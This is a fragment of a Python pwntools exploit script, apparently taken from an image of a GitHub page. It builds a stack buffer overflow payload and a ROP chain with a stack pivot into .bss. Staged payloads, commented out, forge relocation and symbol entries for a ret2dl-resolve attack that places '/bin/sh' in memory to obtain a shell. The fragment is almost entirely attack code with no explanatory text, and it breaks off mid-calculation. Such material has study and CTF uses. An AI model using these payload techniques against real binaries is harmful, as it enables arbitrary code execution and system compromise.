 ```python
bss_addr = elf.get_section_by_name('.bss').header.sh_addr        # 0x804a028

base_addr = bss_addr + 0x600    # 0x804a628

payload_1  = "A" * 112
payload_1 += p32(read_plt)
payload_1 += p32(pppr_addr)
payload_1 += p32(0)
payload_1 += p32(base_addr)
payload_1 += p32(100)
payload_1 += p32(pop_ebp_addr)
payload_1 += p32(base_addr)
payload_1 += p32(leave_ret_addr)
io.send(payload_1)

# payload_2  = "AAAA"     # new ebp
# payload_2 += p32(write_plt)
# payload_2 += "AAAA"
# payload_2 += p32(1)
# payload_2 += p32(base_addr + 80)
# payload_2 += p32(len("/bin/sh"))
# payload_2 += "A" * (80 - len(payload_2))
# payload_2 += "/bin/sh\x00"
# payload_2 += "A" * (100 - len(payload_2))
# io.sendline(payload_2)
# print io.recv()

# reloc_index = 0x20
# payload_3  = "AAAA"
# payload_3 += p32(plt_0)
# payload_3 += p32(reloc_index)
# payload_3 += "AAAA"
# payload_3 += p32(1)
# payload_3 += p32(base_addr + 80)
# payload_3 += p32(len("/bin/sh"))
# payload_3 += "A" * (80 - len(payload_3))
# payload_3 += "/bin/sh\x00"
# payload_3 += "A" * (100 - len(payload_3))
# io.sendline(payload_3)
# print io.recv()

# reloc_index = base_addr + 28 - rel_plt  # fake_reloc = base_addr + 28
# r_info = 0x707
# fake_reloc = p32(write_got) + p32(r_info)
# payload_4  = "AAAA"
# payload_4 += p32(plt_0)
# payload_4 += p32(reloc_index)
# payload_4 += "AAAA"
# payload_4 += p32(1)
# payload_4 += p32(base_addr + 80)
# payload_4 += p32(len("/bin/sh"))
# payload_4 += fake_reloc
# payload_4 += "A" * (80 - len(payload_4))
# payload_4 += "/bin/sh\x00"
# payload_4 += "A" * (100 - len(payload_4))
# io.sendline(payload_4)
# print io.recv()

# reloc_index = base_addr + 28 - rel_plt
# fake_sym_addr = base_addr + 36
# align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # since the size of Elf32_Sym is 0x10
# fake_sym_addr = fake_sym_addr + align
# r_sym = (fake_sym_addr - dynsym) / 0x10  # calcute the symbol index since the size of Elf32_Sym
```